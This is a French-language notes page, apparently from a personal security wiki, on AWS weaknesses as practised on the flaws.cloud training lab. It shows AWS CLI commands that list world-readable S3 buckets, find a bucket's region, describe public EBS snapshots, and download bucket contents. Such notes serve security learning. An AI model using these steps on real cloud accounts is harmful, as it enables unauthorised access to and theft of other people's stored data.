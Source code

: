 ```yaml
---
title: Amazon Web Services
permalink: /AWS/
---
```


# Amazon Web Services
AWS propose des services clouds. Certaines vulnérabilités spécifiques à AWS peuvent être intéressantes à connaître.

## Buckets AWS
AWS utilise des "buckets" (un peu comme un repo github) pour gérer les sites. Quand ils sont mals configurés il est possible de lister le contenu des buckets, ou même modifier le contenu !

Quand des permissions sont définies pour "tout le monde":
```
[~] aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2                                                    
2017-03-02 23:00:18       2540 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2017-03-02 23:01:15       2878 index.html
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```

La région peut varier. On peut la retrouver via host:
```
[~] host flaws.cloud 
flaws.cloud has address 54.231.176.231
[~] host 54.231.176.231 
231.176.231.54.in-addr.arpa domain name pointer s3-website-us-west-2.amazonaws.com.
```

Dans certains cas il est nécessaire d'avoir au moins un compte (https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html):
```
[~] aws s3 --profile ruuand ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud     
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```

Quelques points importants:
- Les noms des buckets sont uniques sur tout AWS.
- Pour accéder à un bucket via un nom de domaine il faut que le DNS corresponde au nom du bucket.
- Un utilisateur ayant le droit de lister les buckets d'un compte pourra lister TOUT les buckets. Il n'y a pas de restrictions du type (liste seulement bucket1, bucket2 mais pas bucket3), en revanche on peut restreindre l'accès aux buckets.

## Snapshots
Il est possible de faire des snapshots. L'accès à ceux-ci est restreint par défaut mais certains utilisateurs les rendent public
```
aws --profile attack ec2 describe-snapshots --region us-west-2
```
Si on peut récupérer un snapshot alors il est possible de le monter dans une instance que l'on contrôle pour fouiller un peu.

## Commandes utiles
```
aws configure --profile ruuand # Configure le profil ruuand
aws s3 --profile ruuand sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . # Télécharge le contenu d'un bucket
aws --profile ruuand s3 ls # Liste les buckets avec le profil ruuand
```

# Références
- [FLAWS](http://flaws.cloud)
